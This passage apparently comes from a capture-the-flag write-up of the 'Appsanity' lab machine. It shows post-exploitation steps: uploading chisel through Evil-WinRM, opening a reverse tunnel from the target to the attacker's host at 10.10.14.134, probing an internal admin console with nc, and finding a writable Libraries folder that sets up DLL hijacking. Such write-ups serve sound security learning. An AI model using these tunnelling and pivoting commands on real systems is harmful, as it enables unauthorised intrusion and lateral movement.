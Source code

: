 ```
*Evil-WinRM* PS C:\Users\devdoc\Desktop> upload /opt/chisel/chisel.exe
                                        
Info: Uploading /opt/chisel/chisel.exe to C:\Users\devdoc\Desktop\chisel.exe

Data: 12008104 bytes of 12008104 bytes copied
                                        
Info: Upload successful!
```
On kali, establish a reverse chisel listener:
```
┌──(kali㉿kali)-[/opt/chisel]
└─$ ./chisel server -p 8000 --reverse
2023/11/01 17:00:04 server: Reverse tunnelling enabled
2023/11/01 17:00:04 server: Fingerprint dvjvmDdco0ZHxnPqgpFqF8Jv/zSQPmy1DNlrftgZWWs=
2023/11/01 17:00:04 server: Listening on http://0.0.0.0:8000
```
Finally, connect with `chisel.exe` on the target:
```
.\chisel.exe client 10.10.14.134:8000 R:100:127.0.0.1:100
```
Now we can interact with the port using `nc`:
```
┌──(kali㉿kali)-[~/Documents/Appsanity]
└─$ nc localhost 100
Reports Management administrative console. Type "help" to view available commands.
help
Available Commands:
backup: Perform a backup operation.
validate: Validates if any report has been altered since the last backup.
recover <filename>: Restores a specified file from the backup to the Reports folder.
upload <external source>: Uploads the reports to the specified external source.
```
We are given several options, and they seem to be related to the Reports folder that we might find back at `C:\inetpub\ExaminationPanel\ExaminationPanel\Reports`. If we look at Program Files, we can find a folder for this Reports Management tool. Note that this is where lateral movement to `devdoc` is necessary, as our other user cannot access this folder:
```
*Evil-WinRM* PS C:\Program Files\ReportManagement> ls


    Directory: C:\Program Files\ReportManagement


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         11/3/2023   5:51 PM                Libraries
-a----          5/5/2023   5:21 AM          34152 cryptbase.dll
-a----          5/5/2023   5:21 AM          83744 cryptsp.dll
-a----         3/11/2021   9:22 AM         564112 msvcp140.dll
-a----         9/17/2023   3:54 AM         140512 profapi.dll
-a----        10/20/2023   2:56 PM         102912 ReportManagement.exe
-a----        10/20/2023   1:47 PM       11492864 ReportManagementHelper.exe
-a----         3/11/2021   9:22 AM          96144 vcruntime140.dll
-a----         3/11/2021   9:22 AM          36752 vcruntime140_1.dll
-a----          5/5/2023   5:21 AM         179248 wldp.dll
```
### Analysis of ReportManagement.exe
#### Setting up Process Monitor in Windows
We also can note that `Libraries` folder is writable by us, while the main folder is not.
```
*Evil-WinRM* PS C:\Program Files\ReportManagement> icacls 'C:\Program Files\ReportManagement\Libraries'
C:\Program Files\ReportManagement\Libraries APPSANITY\devdoc:(OI)(CI)(RX,W)
                                            BUILTIN\Administrators:(I)(F)
```